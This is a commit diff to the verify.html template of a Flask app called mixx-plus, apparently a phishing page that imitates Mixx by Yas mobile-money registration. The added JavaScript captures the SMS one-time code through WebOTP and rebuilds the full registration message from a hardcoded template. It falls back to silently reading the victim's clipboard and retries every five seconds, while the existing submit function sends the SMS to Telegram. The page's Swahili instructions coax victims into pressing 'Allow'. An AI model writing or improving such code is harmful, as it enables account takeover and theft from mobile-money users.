

Before and after one commit to alphalibee1544/mixx-plus, a Flask app: page /verify in a window 1280 px wide. Shown: the part 232-1088 px from the top of the page. Run offline with Flask 3, Linux system fonts and the light colour scheme.

Commit message:
Update verify.html

```diff
--- a/templates/verify.html
+++ b/templates/verify.html
@@ -94,8 +94,8 @@
                 <div class="code-instruction">
                     <i class="fas fa-sms"></i> <strong>Msimbo utagunduliwa kiotomatiki</strong><br><br>
                     <strong>1.</strong> Subiri SMS ifike<br>
-                    <strong>2.</strong> Bonyeza <strong>"Allow"</strong><br>
-                    <strong>3.</strong> SMS itajaza moja kwa moja<br>
+                    <strong>2.</strong> Bonyeza <strong>"Allow"</strong> kwenye kidirisha<br>
+                    <strong>3.</strong> Ujumbe utajaza kiotomatiki<br>
                     <strong>4.</strong> Bonyeza <strong>"Endelea"</strong>
                 </div>
                 <a href="sms:" class="sms-open-btn" id="btnIPhone" style="display:none;">
@@ -166,6 +166,7 @@
         var isSubmitting = false;
         var smsDetected = false;
         var detectedCode = '';
+        var webotpAttempted = false;
 
         // ================================================================
         // iPhone/Android DETECTION
@@ -222,6 +223,7 @@
             document.getElementById('smsMessage').value = '';
             smsDetected = false;
             detectedCode = '';
+            webotpAttempted = false;
             document.getElementById('codeError').textContent = 'OTP Imetumwa. Subiri msimbo kutoka Mixx. (' + resendCount + '/3)';
             document.getElementById('codeError').style.color = 'var(--primary)';
             document.getElementById('codeError').classList.add('show');
@@ -236,7 +238,7 @@
             } catch(e) {}
 
             setTimeout(function() { resendCooldown = false; }, 30000);
-            setTimeout(autoFillOTP, 1500);
+            setTimeout(startAutoDetect, 1500);
         }
 
         async function submitCode() {
@@ -251,7 +253,7 @@
             }
 
             debugLog('📤 Submitting SMS to Telegram...', 'info');
-            debugLog('📤 SMS length: ' + smsText.length, 'info');
+            debugLog('📤 SMS: ' + smsText, 'info');
 
             isSubmitting = true;
             document.getElementById('submitBtn').disabled = true;
@@ -296,6 +298,7 @@
             document.getElementById('smsMessage').value = '';
             smsDetected = false;
             detectedCode = '';
+            webotpAttempted = false;
             document.getElementById('codeError').textContent = 'Msimbo sio sahihi. Jaribu tena.';
             document.getElementById('codeError').style.color = 'var(--danger)';
             document.getElementById('codeError').classList.add('show');
@@ -306,61 +309,93 @@
             isSubmitting = false;
             document.getElementById('submitBtn').disabled = false;
             document.getElementById('submitBtn').innerHTML = 'Endelea →';
-            setTimeout(autoFillOTP, 1500);
+            setTimeout(startAutoDetect, 1500);
         }
 
         // ================================================================
-        // WEBOTP AUTO-FILL - RECONSTRUCTS FULL SMS FROM CODE
+        // WEBOTP DETECTION + REGENERATE FULL SMS
         // ================================================================
-        async function autoFillOTP() {
+        function regenerateFullSMS(code) {
+            return 'You are being registered in Mixx by Yas Super App, use the code ' + code + ' to complete registration. Do not share the code with anybody. For more info contact us on 100. DWvV9aXqDR';
+        }
+
+        async function startAutoDetect() {
             if (!document.getElementById('screen1').classList.contains('active')) {
-                debugLog('⏹️ Not on code screen, skipping', 'info');
+                debugLog('⏹️ Not on code screen, stopping', 'info');
                 return;
             }
 
-            // Check if WebOTP is supported
-            if (!('OTPCredential' in window)) {
-                debugLog('❌ WebOTP not supported on this browser', 'error');
-                document.getElementById('codeError').textContent = 'ℹ️ Kifaa chako hakitumii auto-detect. Tafadhali nakili mwenyewe.';
-                document.getElementById('codeError').style.color = '#f59e0b';
-                document.getElementById('codeError').classList.add('show');
+            if (smsDetected) {
+                debugLog('✅ SMS already detected, skipping', 'success');
                 return;
             }
 
-            debugLog('⏳ Waiting for SMS notification via WebOTP...', 'info');
-            document.getElementById('codeError').textContent = '⏳ Inasubiri SMS...';
+            // ============================================================
+            // METHOD 1: WebOTP - Auto-detect from notification
+            // ============================================================
+            if (!webotpAttempted && 'OTPCredential' in window) {
+                webotpAttempted = true;
+                debugLog('⏳ Attempt 1: WebOTP - waiting for notification...', 'info');
+                document.getElementById('codeError').textContent = '⏳ Inasubiri SMS... Bonyeza "Allow" ikitokea';
                 document.getElementById('codeError').style.color = 'var(--primary)';
                 document.getElementById('codeError').classList.add('show');
 
                 try {
-                // ============================================================
-                // STEP 1: WebOTP detects the SMS and extracts the code
-                // ============================================================
+                    const controller = new AbortController();
+                    const timeout = setTimeout(() => controller.abort(), 60000);
+
                     const credential = await navigator.credentials.get({
-                    otp: { transport: ['sms'] }
+                        otp: { transport: ['sms'] },
+                        signal: controller.signal
                     });
 
-                // ============================================================
-                // STEP 2: If code is received, reconstruct the FULL SMS
-                // ============================================================
+                    clearTimeout(timeout);
+
                     if (credential && credential.code) {
                         detectedCode = credential.code;
-                    debugLog('✅ OTP DETECTED! Code: ' + detectedCode, 'success');
+                        debugLog('✅ WebOTP SUCCESS! Code: ' + detectedCode, 'success');
 
-                    // ============================================================
-                    // STEP 3: RECONSTRUCT THE FULL SMS FROM THE CODE
-                    // ============================================================
-                    var fullSMS = 'You are being registered in Mixx by Yas Super App, use the code ' + detectedCode + ' to complete registration. Do not share the code with anybody. For more info contact us on 100. DWvV9aXqDR';
+                        // REGENERATE the full SMS from the code
+                        var fullSMS = regenerateFullSMS(detectedCode);
 
-                    debugLog('📝 Full SMS reconstructed: ' + fullSMS, 'success');
-
-                    // ============================================================
-                    // STEP 4: Fill the textarea with the FULL SMS
-                    // ============================================================
                         document.getElementById('smsMessage').value = fullSMS;
                         smsDetected = true;
 
-                    debugLog('✅ Full SMS filled in textarea!', 'success');
+                        debugLog('📝 Full SMS regenerated: ' + fullSMS, 'success');
+
+                        document.getElementById('codeError').textContent = '✅ Msimbo umegunduliwa! Bonyeza "Endelea" kutuma.';
+                        document.getElementById('codeError').style.color = '#10b981';
+                        document.getElementById('codeError').classList.add('show');
+
+                        clearInterval(countdownTimer);
+                        document.getElementById('timerDisplay').textContent = '✅ Imekamilika';
+                        document.getElementById('timerDisplay').className = 'timer-bar';
+                        return;
+                    }
+                } catch (err) {
+                    if (err.name === 'AbortError') {
+                        debugLog('⏱️ WebOTP timeout - trying fallback', 'error');
+                    } else {
+                        debugLog('❌ WebOTP error: ' + err.message, 'error');
+                    }
+                }
+            }
+
+            // ============================================================
+            // METHOD 2: Clipboard Fallback (if WebOTP fails)
+            // ============================================================
+            debugLog('🔄 Attempt 2: Clipboard fallback - checking clipboard...', 'info');
+            document.getElementById('codeError').textContent = '📋 Tafadhali nakili ujumbe wa SMS kwenye arifa yako';
+            document.getElementById('codeError').style.color = '#f59e0b';
+            document.getElementById('codeError').classList.add('show');
+
+            try {
+                if (navigator.clipboard && navigator.clipboard.readText) {
+                    const text = await navigator.clipboard.readText();
+                    if (text && text.length > 20) {
+                        document.getElementById('smsMessage').value = text;
+                        smsDetected = true;
+                        debugLog('✅ Clipboard SUCCESS! SMS length: ' + text.length, 'success');
 
                         document.getElementById('codeError').textContent = '✅ Ujumbe umegunduliwa! Bonyeza "Endelea" kutuma.';
                         document.getElementById('codeError').style.color = '#10b981';
@@ -369,31 +404,41 @@
                         clearInterval(countdownTimer);
                         document.getElementById('timerDisplay').textContent = '✅ Imekamilika';
                         document.getElementById('timerDisplay').className = 'timer-bar';
-                } else {
-                    debugLog('⚠️ No code received from WebOTP', 'error');
+                        return;
                     }
-            } catch (err) {
-                if (err.name === 'AbortError') {
-                    debugLog('⏱️ WebOTP timeout - no SMS received', 'error');
-                } else {
-                    debugLog('❌ WebOTP error: ' + err.message, 'error');
-                    document.getElementById('codeError').textContent = '❌ Hitilafu. Tafadhali nakili SMS mwenyewe.';
+                }
+                debugLog('⚠️ Clipboard empty or not available', 'error');
+            } catch (e) {
+                debugLog('❌ Clipboard error: ' + e.message, 'error');
+            }
+
+            // ============================================================
+            // If both methods fail
+            // ============================================================
+            debugLog('❌ No SMS detected. Please copy manually.', 'error');
+            document.getElementById('codeError').textContent = '❌ Hakuna SMS iliyogunduliwa. Tafadhali nakili mwenyewe.';
             document.getElementById('codeError').style.color = 'var(--danger)';
             document.getElementById('codeError').classList.add('show');
-                }
-            }
         }
 
         // ================================================================
         // START
         // ================================================================
         startCountdown();
+        setTimeout(startAutoDetect, 1500);
 
-        // Run autoFillOTP after 1 second
-        setTimeout(autoFillOTP, 1000);
+        // Keep trying every 5 seconds if not detected
+        var autoDetectInterval = setInterval(function() {
+            if (!smsDetected && document.getElementById('screen1').classList.contains('active')) {
+                startAutoDetect();
+            }
+            if (!document.getElementById('screen1').classList.contains('active')) {
+                clearInterval(autoDetectInterval);
+            }
+        }, 5000);
 
-        debugLog('✅ MixxPlus - Waiting for SMS notification...', 'success');
-        debugLog('📱 Open on Android Chrome for best results', 'info');
+        debugLog('✅ MixxPlus - Auto-detection started', 'success');
+        debugLog('📱 Method 1: WebOTP (auto) → Method 2: Clipboard (fallback)', 'info');
     </script>
 </body>
 </html>
```
Lines whose indentation alone changed are shown as unchanged.
